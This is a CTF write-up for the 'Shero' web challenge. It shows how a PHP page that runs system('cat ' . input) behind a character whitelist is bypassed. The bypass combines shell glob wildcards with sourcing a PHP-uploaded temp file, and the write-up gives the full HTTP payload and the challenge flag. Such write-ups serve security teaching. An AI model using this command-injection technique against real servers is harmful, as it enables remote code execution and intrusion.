


# Web - Shero (491)

## Challenge

```php
Warning: Undefined array key "f" in /var/www/html/index.php on line 2
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>

Deprecated: preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 5
```

We can only execute system commands using the `?f=` GET parameter which has a rather strict regex. Using the following script, we can enumerate the possible characters we can use.

```python
from string import printable
import re
pattern = "[^.cat!? /\|\-\[\]\(\)\$]"

alphabet = ''
for i in printable:
    if(not re.search(pattern, i)):
        alphabet += i
print(alphabet)
```

Which gives us the following alphabet.

```
act!$()-./?[]|
```

I'll list a bunch of interesting properties of the characters we have that we can leverage

| Character | Utility                                                                                                                                                                                                                                                                                                                                                                                              |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `$()`     | Can be used for command substitution (but not needed for our exploit).Some more info [here](https://stackoverflow.com/questions/17984958/what-does-it-mean-in-shell-when-we-put-a-command-inside-dollar-sign-and-parenthe)                                                                                                                                                                           |
| `?`       | Can be used as wildcards, e.g. `???/???/?at` can refer to `/usr/bin/cat`                                                                                                                                                                                                                                                                                                                             |
| `\|`      | Pipe operator, can be used to transfer the output of the first command to subsequent commands. More suitably used to run multiple commands. Alternatively can also be used as an `\|\|` OR operator to run 2 commands (or more)                                                                                                                                                                      |
| `.`       | While typically it usually just refers to the current working directory or relative path notation, it actually also can mean to use the current Bash environment context to read and execute commands in a file. E.g. `. /hello` means to execute commands in the `/hello` file. See more [here](https://www.shell-tips.com/bash/source-dot-command/#gsc.tab=0)                                      |
| `[x-y]`   | Globbing! A very critical part of our exploit, this basically allows us to select that the current character's ASCII must be anywhere between the ASCII of `x` and the ASCII of `y`. To give an example, a command like `/usr/bin/[b-d]a[s-u]` will match the command `/usr/bin/cat`. This is critical for us to filter out certain files while globbing especially given our limited character set. |

This solution may have been an unintended one but basically when you send a `POST` request to a php server, it uploads your file into a default folder of `/tmp/phpxxxxxx` where the `x` characters are random upper and lower case letters. This is perfect for us to guess as we can use the `?` glob wildcard characters to access this file.

However, there's a small problem, given the characters of our alphabet, we can only construct `/???/?????????` to access such a file and there are wayyy too many files that have such a path.

We need a way of filtering out the useless files and only select our file. And we have just nice the operators `[-]` which can allow us to filter out certain characters. We want to only match uppercase characters (each command may have to try multiple times in hopes of matching the appropriate file you want), so from our character set we can use `[?-]]` which matches the ASCII range of 63-93, a bit wider than needed but will suffice for our purposes.

Now we have remote code execution!

The `GET` parameter payload is

```
a||. /???/????????[?-[]
```

Note: We just use an invalid command `a` for the first part which will fail and thus trigger the second command after the `||` operator.

Here's the full payload (with url encoded parameters)

```
POST /?f=a%7C%7C.%20/???/????????%5B?-%5B%5D HTTP/1.1
Host: challs.nusgreyhats.org:12325
Connection: close
Accept-Encoding: gzip, deflate
Accept: /
Content-Length: 109
Content-Type: multipart/form-data; boundary=deadbeef

--deadbeef
Content-Disposition: form-data; name="file"; filename="file"

ls -la
--deadbeef--
```

We can discover that there is a `/readflag` binary and a `flag.txt` in the root directory but it seems that we don't have sufficient permission to directly read out the `flag.txt`. We can `cat` out the binary and see what's the next step.



It seems that we just need to pass in the jumbled up parameter `sRPd45w_0` to the binary to read the flag. Given that we have full RCE, it is pretty trivial to read it out

## Flag



```
grey{r35p3c7_70_b45h_m4573r_0dd14e9bc3172d16}
```

## Note

All credits to @Al1enX for this first blood solve
Ref: [here](https://m.freebuf.com/articles/network/279563.html)
